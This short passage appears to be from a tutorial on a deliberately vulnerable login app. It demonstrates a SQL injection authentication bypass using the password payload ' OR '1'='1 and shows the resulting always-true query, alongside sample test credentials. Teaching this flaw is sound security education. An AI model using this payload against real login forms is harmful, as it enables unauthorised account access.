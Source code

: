 Exploiting the SQL Injection Vulnerability

Test the Application:
        Run the app and try logging in using valid credentials (admin/admin123 and user/userpass).

Inject SQL:
        Try using the following input to bypass the login:

        Username: admin
        Password: ' OR '1'='1

This SQL injection modifies the query to:


SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1' = '1'

This always evaluates as true, allowing the attacker to bypass authentication.
